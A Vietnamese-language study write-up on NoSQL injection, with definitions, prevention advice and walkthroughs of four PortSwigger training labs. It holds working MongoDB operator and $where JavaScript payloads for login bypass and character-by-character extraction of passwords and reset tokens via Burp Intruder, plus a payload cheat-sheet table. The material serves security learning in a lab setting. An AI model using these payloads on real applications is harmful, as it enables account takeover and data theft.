# No SQL Injection (4 labs)

**Định nghĩa:** 

NoSQL injection là **lỗ hổng bảo mật** xảy ra khi ứng dụng:

- Nhúng **dữ liệu đầu vào của người dùng trực tiếp** vào câu truy vấn NoSQL (ví dụ: MongoDB, CouchDB, Redis, DynamoDB).
- Không có kiểm tra, lọc, escape thích hợp.

→ Hacker có thể thay đổi logic truy vấn, truy xuất dữ liệu, hoặc thực thi mã JavaScript (với MongoDB).

**Nguyên nhân:**

- Thiết kế NoSQL cho phép chấp nhận truy vấn động dưới dạng JSON → dễ bị chèn thêm field, toán tử.
- Hỗ trợ các toán tử đặc biệt như `$ne` (not equal), `$regex` (biểu thức chính quy), `$where` (thực thi JS).
- Không validate/escape** dữ liệu đầu vào.
- Sử dụng cơ chế `eval()` hoặc tương tự trên server để chạy JSON/JS do user cung cấp.

> NoSQL khác SQL: thay vì inject `' OR '1'='1`, attacker inject thêm key hoặc JS → thay đổi cấu trúc truy vấn.

**Tác động:**

- Bypass xác thực → đăng nhập với bất kỳ tài khoản.
- Đọc dữ liệu nhạy cảm: mật khẩu, token, email.
- Thực thi mã JavaScript trên server (`$where`).
- Thao tác, xóa, chỉnh sửa dữ liệu.
- DoS (từ chối dịch vụ) do truy vấn phức tạp.


**Các kỹ thuật tấn công:** 

#### 1. **Injection boolean logic**

Thêm điều kiện true/false → quan sát phản hồi.

```
httpCopyEditusername=admin' && '1'=='1     (always true)
username=admin' && '1'=='2     (always false)
```

#### 2. **MongoDB operator injection**

Inject toán tử:

```
username=admin&password[$ne]=null
username[$regex]=^adm
```

#### 3. **JavaScript injection với `$where`**

Inject đoạn JS chạy trên server:

```
"$where":"this.username == 'admin' && this.password.length < 10"
```

#### 4. **Blind injection (khai thác mù)**

Dò từng ký tự giá trị:

```
"$where":"this.password[0] == 'a'"
```

#### 5. **Extract field name (PortSwigger):**

```
"$where":"Object.keys(this)[0].match(/^p.*/)"
```

#### 6. **Khác:**

- Sử dụng `$gt`, `$lt`, `$in` để thay đổi logic.
- Sử dụng `eval()` trong JavaScript để chạy payload.


**Cách phòng tránh:** 

-  Không nhúng dữ liệu đầu vào trực tiếp vào truy vấn JSON.
- Sử dụng thư viện/ORM an toàn, query builder → thay vì tự nối chuỗi.
- Luôn validate & sanitize dữ liệu người dùng.
- Hạn chế tính năng nguy hiểm như `$where`, `eval()`.
- Principle of Least Privilege: tài khoản DB chỉ có quyền cần thiết.
- Log & giám sát truy vấn bất thường.


**Common Payload:**

| Mục đích              | Payload                                       |
| --------------------- | --------------------------------------------- |
| Bypass login          | username=admin&password[$ne]=null             |
| Regex matching        | username[$regex]=^adm                         |
| Always true           | username=admin'                               |
| Always false          | username=admin' && '1'=='2                    |
| Extract field name    | "$where":"Object.keys(this)[0].match(/^p.*/)" |
| Extract field value   | "$where":"this.secret[0] == 'a'"              |
| Bypass password check | password[$ne]=null                            |

## Apprentice (2 labs):

### Lab 1: Detecting NoSQL injection

Lab des:

Khai thác lỗi NoSQL injection để hiển thị sản phẩm chưa phát hành.

Steps: 

- test chức năng filter = fuzz với ký tự đơn giản: `'`

  

  Lỗi server trả về JS syntax error: => input đầu vào không được lọc đúng cách

- Gửi request với payload hợp lệ, ctrl +U trong burpsuite để encode URL:

  ```
  Gifts'+'
  ```

  

  Sever OK => không bị lỗi cú pháp => có thể bị lỗi NoSQLi 

  Thử request với các giá trị điều kiện: 

  - False:

  ```
  Gifts' && 0 && 'x
  ```

  => URL-encode và gửi request → kết quả không có sản phẩm nào.

  

  

  - True:

  ```
  Gifts' && 1 && 'x
  ```

  => URL-encode và gửi request → kết quả trả lại sản phẩm bình thường.

  

  - Chèn điều kiện luôn đúng và quan sát kết quả trả về: 

  ```
  Gifts'||1||'
  ```

  

  

  Lab solved:



### Lab 2: Exploiting NoSQL operator injection to bypass authentication

Lab des:

Ứng dụng cung cấp chức năng đăng nhập dựa trên cơ sở dữ liệu MongoDB (NoSQL).

Do dữ liệu từ người dùng (username, password) được chèn trực tiếp vào câu truy vấn MongoDB mà không kiểm soát, nên kẻ tấn công có thể chèn thêm toán tử đặc biệt như `$ne` hoặc `$regex` để thao túng logic của truy vấn.

Mục tiêu: đăng nhập thành công vào tài khoản admin mà không biết mật khẩu.

Steps: 

- test chức năng login = fuzzing sử dụng một số payload username: 

```
{"$ne":""}, {"$regex":"wien.*"}
```

=> Vẫn login thành công

payload 1:



payload 2: 



=> Backend đang dùng MongoDB và không có filter json đầu vào + có thể sử dụng toán tử regex 

- Hình thành payload: 

  - đổi username: 

    ```
    {"$regex":"admin.*"}
    ```

  - đổi password thành: 

  ```
  {"$ne":""}
  ```

  Khi đó, chương trình sẽ query tất cả username khớp với regex và password khác rỗng.

  

- 

## Practitioner (2 labs): 

### Lab 1: Exploiting NoSQL injection to extract data

Lab des: 

Ứng dụng có chức năng tra cứu người dùng: 

```
GET /user/lookup?user=wiener
```

Backend dùng MongoDB để tra cứu user, nhưng không lọc hoặc không escape đầu vào.

Mục tiêu: khai thác NoSQL injection để tìm và trích xuất mật khẩu của user `administrator`.


Steps: 

- Kiểm tra injection với endpoint: `GET /user/lookup?user=wiener`

```
GET /user/lookup?user=wiener'
```

=> Kết quả: lỗi cú pháp JavaScript → chứng tỏ đầu vào được chèn trực tiếp vào truy vấn

- Test nối chuỗi: 

  - Gửi payload:

    ```
    wiener'+' 
    ```

  - Ý nghĩa: chuỗi `"wiener"` nối thêm chuỗi rỗng → `"wiener" + ""`.

  - Kết quả: server vẫn trả lại thông tin user `wiener` → chứng tỏ đầu vào bị nối chuỗi vào truy vấn.

- Test  các biểu thức điều kiện
  - ĐIều kiện luôn sai: 

```
wiener' && '1'=='2
```

=> Không hiển thị user	

​	- Điều kiện luôn đúng

```
wiener' && '1'=='1
```

=> Kết luận: có thể chèn biểu thức boolean và điều khiển kết quả tìm kiếm dựa trên điều kiện.

Có vẻ truy vấn backend được viết như sau: 

```
db.users.findOne({ username: user })
```

Nếu chèn giá trị `user` = `administrator' && this.password.length < 10 || 'a'=='b`

Nếu điều kiện độ dài password đúng, user được gán bằng `administrator`



Send req to intruder tab: 





Như vậy độ dài Password = 8.

Tiến hành bruteforce mật khẩu: 

```
administrator' && this.password[0]=='a
```

Send to intruder tab: 


Pass: `fsewzyym`



### Lab 2: Exploiting NoSQL operator injection to extract unknown fields

Lab des: 

Ứng dụng dùng MongoDB, chức năng tìm user dựa trên username.

Mục tiêu: tìm ra tên trường chứa password reset token của user `carlos`, khai thác để lấy token, reset mật khẩu và đăng nhập.

Ý tưởng: 

**Khai thác NoSQL injection để inject `$where`**:

- `$where` cho phép chạy **JavaScript** trên server → liệt kê key của đối tượng user.

**Xác định tên trường chứa password reset token**:

- Dùng `Object.keys(this)` để lấy mảng các trường, rồi kiểm tra từng ký tự của trường.

**Dò từng ký tự token**:

- Sau khi có tên trường, kiểm tra giá trị của trường bằng cách so sánh từng ký tự.

Steps: 

Bước 1: Xác minh có NoSQL injection

- Đăng nhập với:

  ```
  username=carlos
  password=invalid
  ```

→ Nhận lỗi `Invalid username or password`.



- Thay `password=invalid` thành:

  ```
  {"$ne":"invalid"}
  ```

→ Nhận lỗi `Account locked` → chứng tỏ có injection, và server hiểu cú pháp MongoDB, cho phép thực thi toán tử `$ne`



------

Bước 2: Inject `$where` để chạy JS

- Thêm tham số mới:

  ```
  "$where": "0"
  ```

```
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}
```

→ Server trả `Invalid username or password`.



- Thay `"0"` thành `"1"`:

  ```
  "$where": "1"
  ```

→ Server trả `Account locked` → server thực sự chạy và đánh giá giá trị điều kiện trong biểu thức JavaScript trong `$where`.



------

Bước 3: Liệt kê tên các trường (Object.keys)

- Sử dụng:

  ```
  Object.keys(this)[index]
  ```

để lấy tên trường tại vị trí index.

- Dùng Burp Intruder:
  - `$where`: `"Object.keys(this)[1].match('^.{§§}§§.*')"`
  - §§: đánh dấu vị trí cần fuzz ký tự.
- Cluster bomb:
  - Payload 1: số (vị trí ký tự trong tên trường, ví dụ từ 0–20).
  - Payload 2: ký tự (a–z, A–Z, 0–9).
- Nếu điều kiện đúng → server trả `Account locked`.
- Nếu sai → trả `Invalid username or password`.
- Bằng cách này, ta sẽ ghép lại từng ký tự → tìm được tên trường, ví dụ `username`, `passwordResetToken`…



=> Tên trường ứng vs index 0 là `id`, index 1 là `username`

------

Bước 4: Xác định trường token và giá trị các trường

- Lặp lại bước trên với `Object.keys(this)[2]`, `Object.keys(this)[3]`… để tìm tất cả các trường.

=> index 2: `password`

=> index 3: `email`

=> index 4:  => out of index

Bruteforce để xác định giá trị `password`, `email` 

```
"$where": "this.password.length=='20'"
"$where": "this.password.charAt(0)=='a'"
```

```
"$where": "this.email.length=='25'"
"$where": "this.email.charAt(0)=='a'"
```



Độ dài email: 25, độ dài password là: 20



 

=> đăng nhập bằng password tìm được ở trên>< failed => yêu cầu reset pass

Tượng tự, ta tìm được `email` = 'carlos@carlos-montoya.net '

Bước 5: Xác minh tên trường

- Gửi request forgot password, điền email tìm được ở trên vào, tuy nhiên trước đó không có trường nào phục vụ cho reset pass, thử check lại tên các trường thì thấy thêm 1 trường mới ở index 4: 

  

  => index 4: `passwordReset`

- Dùng Burp Repeater gửi request:

  ```
  GET /forgot-password?passwordReset=invalid
  ```

- Nếu server trả `Invalid token` → xác nhận đúng tên trường.

  

  Xác định độ dài của field `passwordReset` (16) sd intruder để bruteforce và check điều kiện: 

  ```
  "$where": "this.passwordReset.length=='16'"
  "$where": "this.passwordReset.charAt(0)=='a'"
  ```

Bước 6: Lấy giá trị token

- Lại dùng Intruder:

  ```
  "$where": "this.passwordReset.match('^.{§§}§§.*')"
  ```

- Cluster bomb:

  - Payload 1: vị trí ký tự trong giá trị token (0–15).
  - Payload 2: ký tự (a–z, A–Z, 0–9…).

- Nhận `Account locked` khi điều kiện đúng.

- Ghép lại từng ký tự → lấy được token thật.




------



passwordReset = '6a27ed38287a7cf8'

Bước 7: Reset password và đăng nhập

- Gửi request (send request to browser with original session)

  ```
  GET /forgot-password?passwordReset=6a27ed38287a7cf8
  ```

- Server hiển thị form đổi mật khẩu → đặt mật khẩu mới.

  

- Đăng nhập bằng:

  ```
  Username: carlos
  Password: n33r9
  ```

→ Lab solved


